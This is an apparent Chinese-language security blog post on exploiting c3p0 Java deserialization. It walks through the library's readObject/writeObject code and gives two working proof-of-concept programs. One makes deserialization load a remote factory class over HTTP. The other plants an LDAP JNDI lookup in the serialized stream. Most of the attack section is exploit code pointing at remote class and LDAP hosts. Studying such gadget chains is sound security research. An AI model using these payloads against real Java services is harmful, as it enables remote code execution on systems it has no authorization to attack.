


复习一下c3p0的反序列化打法，网上公开的大概就三种：
* 原生反序列化，加载Reference指定的类工厂的字节码，需要出网
* 配合json反序列化，有两个可以利用的setter
	* 一个打二次反序列化
	* 一个打JNDI

这里啰嗦地说一下原生反序列化的打法

`PoolBackedDataSourceBase#readObject`


如果读取的对象是`IndirectlySerialized`的实例，调用`getObject`来恢复连接池数据源`connectionPoolDataSource`这个属性。
顾名思义，`IndirectlySerialized`是间接序列化，这是一个接口，我们看它的实现子类`ReferenceSerialized#getObject`




`referenceToObject`通过获取引用(`Reference`)中指定的工厂类地址(`fClassLocation`)，构造一个`URLClassLoader`，再去加载工厂类(`fClassName`)。这个引用作为`ReferenceSerialized`对象的属性，我们是可以控制的。

再看一下这个`IndirectlySerialized`是怎么写进去序列化流的
`PoolBackedDataSourceBase#writeObject`


首先尝试序列化连接池数据源`connectionPoolDataSource`
若它不可被序列化，经过`Indirector`处理后再进行序列化，这是一个接口类，我们看它的实现子类`ReferenceIndirector`
下面看一下它是怎么处理这个不可被序列化的对象的，其实看到这里也能猜到，顾名思义它会包装一个引用(`Reference`)


这里要求这个对象是可被引用的（`Referenceable`），获取它的引用后封装到`ReferenceSerialized`中，也就是上文反序列化中提到的类。
可以构造如下POC：
```java
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class Test {
    public static void main(String[] args) throws Exception {
        PoolBackedDataSourceBase base = new PoolBackedDataSourceBase(false);
        Class clazz = Class.forName("com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase");
        Field cp = clazz.getDeclaredField("connectionPoolDataSource");
        cp.setAccessible(true);
        cp.set(base, new evil());

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(base);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();
    }

    public static class evil implements ConnectionPoolDataSource, Referenceable{

        public Reference getReference() throws NamingException {
            return new Reference("calc", "calc", "http://127.0.0.1:9999/");
        }

        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        public void setLogWriter(PrintWriter out) throws SQLException {

        }

        public void setLoginTimeout(int seconds) throws SQLException {

        }

        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }
}
```
`evil`不能被反序列化，会经过`ReferenceIndirector`处理，拿到它的引用放入`ReferenceSerialized`，反序列化时会提取引用的工厂类地址，去远程加载工厂类。

上面反序列化的过程有一行特别醒目的代码
`ReferenceSerialized#getObject`
```java
if ( contextName != null )
nameContext = (Context) initialContext.lookup( contextName );
```
熟悉的JNDI sink，但之前传入`lookup`的都是字符串，这里要求是个`Name`接口类。对比一下，其实就是要让`Name.get(0)`返回那串神奇的URL`ldap://xxx/`或`rmi://xxx/`


翻了一遍Name的实现类，挑了一个好用的`javax.naming.CompoundName`
其他实现类可能序列化和反序列化的时候会麻烦的，感兴趣的可以尝试。
主要关注下面几个方法


`impl`和`mySyntax`都是transient，所以序列化和反序列化时肯定有另外的处理。



大概就是遍历了`impl`的`components`属性（这是一个Vector），每个都写入序列化流。


反序列化的时候，多次调用`readObject`再add进`impl`
大概知道了这个逻辑后我们简单构造一下
```java
CompoundName name = new CompoundName("ldap://127.0.0.1:8099/aaa", new Properties());
new InitialContext().lookup(name);
```
ok成功触发。
接下来的问题时，这个`contextName`属性我们在反序列化时是控制不了的


默认为null
有很多解决方法，最简单就是调试的时候直接改掉这个值为我们构造的`CompoundName`
复杂一点的就是用javassist修改`ReferenceIndirector`这个类的无参构造函数，在里面对`contextName`属性进行赋值。
考虑到`writeObject`还得触发`NotSerializableException`，这里采取一个折中的方法，干脆直接本地重写`PoolBackedDataSourceBase`这个类，由上面的流程可知序列化本质就写入了一个`ReferenceSerialized`对象。
```java
package com.mchange.v2.c3p0.impl;

import com.mchange.v2.ser.Indirector;
import com.mchange.v2.ser.SerializableUtils;
import com.sun.jndi.dns.DnsName;

import javax.naming.CompoundName;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import java.io.IOException;
import java.io.NotSerializableException;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Properties;

public class PoolBackedDataSourceBase extends IdentityTokenResolvable implements Referenceable, Serializable {
    private static final long serialVersionUID = 1;

    @Override
    public String getIdentityToken() {
        return null;
    }

    @Override
    public void setIdentityToken(String idToken) {

    }

    @Override
    public Reference getReference() throws NamingException {
        return null;
    }

    private void writeObject( ObjectOutputStream oos ) throws Exception
    {
        CompoundName name = new CompoundName("ldap://127.0.0.1:8099/aaa", new Properties());
        Class<?> clazz = Class.forName("com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized");
        Constructor<?> con = clazz.getDeclaredConstructors()[0];
        con.setAccessible(true);
        Object referenceSerialized = con.newInstance(null, null, name, null);
        oos.writeShort(1);  // 写入版本
        oos.writeObject(referenceSerialized);
    }
}
```


> 其实原来那条URLClassLoader的链就挺好打了，这个打法复杂化了
>
> 大家看个乐